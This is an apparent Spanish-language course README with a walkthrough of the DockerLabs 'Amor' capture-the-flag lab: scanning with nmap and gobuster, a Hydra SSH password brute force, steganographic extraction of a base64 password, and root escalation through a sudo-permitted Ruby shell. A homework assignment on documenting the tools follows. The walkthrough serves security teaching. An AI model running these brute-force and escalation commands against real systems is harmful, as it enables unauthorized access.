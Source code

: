 ## DOCKERLABS

DockerLabs es una plataforma que ofrece una serie de desafíos prácticos relacionados con Docker, organizados por niveles de dificultad: Muy Fácil, Fácil, Medio y Difícil

# Reto Amor 

**Prerequisito tener instalado docker**

## Fácil

Dockerlabs.es

*Descarga*

![](Descarga.jpg)

Una vez descargada deberemos copiar el contenido hacia kali.

![](scp1.jpg)

```bash
jaider@TTG MINGW64 /g/HACKING
$ scp -r amor kali@192.168.1.12:/home/kali/Documents/
```
Ya en Kali y en caso de no tener instlado Docker proceder a su instalación: 

```bash
sudo apt install docker.io
```

## Despliegue del laboratorio.

Iniciaremos nuestro reto creando una carpeta para el ejercicio, descargando el laboratorio, descomprimiendo, otorgando permisos al script de despliegue y ejecutando el script.

**Descomprimir el recurso:**

En nuestro caso se trata de la carpeta que se traslado por SCP desde ya descomprimida, en caso de que se descargue directamente en Kali proceder a descomprirla. 

```bash
unzip nombre_maquina.zip
```

Esto generará una  carpeta  con archivos: un script que es el autodespliegue de la máquina «auto_deploy.sh» y el archivo de la máquina en.tar «ejemplo.tar».

Y por último para desplegar la máquina, basta con ejecutar el script:


```bash
└─# ./auto_deploy.sh amor.tar 
```

![](Despliegue.jpg)


## Escaneo

Lo primero que realizaremos será revisar nuestra interfaz de red con:

![](ipadd.jpg)

```bash
ip add 
```
para saber a qué segmento apuntaremos nuestros escaneos.

Ya con el segmento en vista y la interfaz, realizaremos una consulta a la red con el siguiente comando:

```bash
sudo netdiscover -i docker0 -r 172.17.0.0/24
```

![](netdiscover.jpg)


Acto seguido, realizaremos una búsqueda con nmap (Network Mapper):

```bash
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
```

![](nmap.jpg)

La búsqueda nos devuelve que hay dos puertos abiertos, el **22** y el **80**.

Abrimos el navegador para revisar el servicio del puerto **80**.

A la vista no se encuentra nada, así que realizamos un fuzzing para ver si encontrábamos algo. Aun que veremos que es infructuoso el procdimieno. 

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![](gobuster.jpg)

A esta altura el servicio web no nos dio el amor que buscábamos, pero sí nos quedamos con la pista de carlota y juan, así que intentaremos con Hydra por SSH con esos usuarios. (Inspección del sitio web)



## Conexión Hydra

Ejecutamos el siguiente comando de hydra, el cual nos da una respuesta positiva al fin:

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

![](hydra.jpg)

Realizamos la conexión SSH con los datos obtenidos:

Navegamos a la siguiente ruta:

```bash
cd /carlota/Desktop/fotos/vacaciones
```

En donde encontrarás un archivo llamado `imagen.jpg`.

Para descargarlo lo realizaremos mediante scp como:

```bash
 scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
```
![](scp.jpg)


La imagen descargada es la siguiente:

![](foto.jpg)

## Con file identificamos el tipo de fichero.

file.jpg


## Esteganografía

Ya es sospechoso que solo exista una imagen entre las rutas, por lo cual decidimos realizar una consulta de esteganografía con:

```bash
steghide --extract -sf imagen.jpg
```

Dentro del archivo secret.txt encontraremos el siguiente código:

Realizamos una búsqueda para saber qué tipo de codificación es y nos da por resultado que es base64, así que realizamos una decodificación:

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
```

Usaremos esta información como contraseña para intentar migrar a otro usuario o convertirnos en root:

```bash
su oscar
```

Con `sudo -l` vemos que tenemos acceso a la consola de **ruby** y la ejecutamos:

![](sudo.jpg)

```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

Finalmente hacemos un:

```bash
whoami
```
![](root.jpg)

# Taller Individual.

**NOTA IMPORTANTE: Realizar la actividad dentro de un README.md**

**Instrucciones:**

- Para esta actividad individual, deberán realizar el trabajo dentro de la subcarpeta ENTREGAS que se encuentra en la sesión actual; dentro de el README.md de la sesión.

- La entrega final deberá cargarse en un nuevo directorio dentro de la carpeta **ENTREGAS**, el cual tendrá el formato ApellidoNombre (ejemplo: PerezJuan). Este directorio deberá ser creado por cada estudiante en el repositorio de GitHub asignado, para lo cual se les otorgarán los permisos de colaboradores necesarios.

**Métrica Clave: Profundidad y Calidad de las Respuestas**

La evaluación de esta actividad se centrará en la profundidad y calidad de sus respuestas. Esto implica lo siguiente:

- Definición y Explicación Detallada: Para cada comando y herramienta empleada, deben proporcionar una definición clara y una explicación exhaustiva de su propósito y funcionamiento.

Ejemplos Prácticos: Incluyan ejemplos concretos y funcionales que ilustren el uso de cada comando o herramienta.

- Variantes y Banderas (Flags): Describan las principales variantes y las banderas (opciones o argumentos) más relevantes de cada comando, explicando su función y cómo modifican el comportamiento del comando.

**Casos de Uso Reales:** Mencionar escenarios o casos de uso comunes donde estas herramientas y comandos son particularmente útiles.

**Asegúrense de que su documentación sea clara, organizada y fácil de entender.**

**NOTA: Incluir imágenes y fuentes en su documentación.**


**Puntos a desarrollar**

1. ReAlizar una investigación individual de cada una de las herramientas empleadas. Sintetice el resultado  mediante un cuadro que explique su definición, funcionalidad y casos de uso.

2. Explicar en detalle cada uno de los comandos empleados en el anterior CTF;  realizando un desglose del mismo y citando al menos tres alternativas (si aplica) de variantes del comando para las herramientas empleadas, este punto amplia el ejercicio anterior.
   
4. Realice un diagrama de flujo de todo el procedimiento realizado.

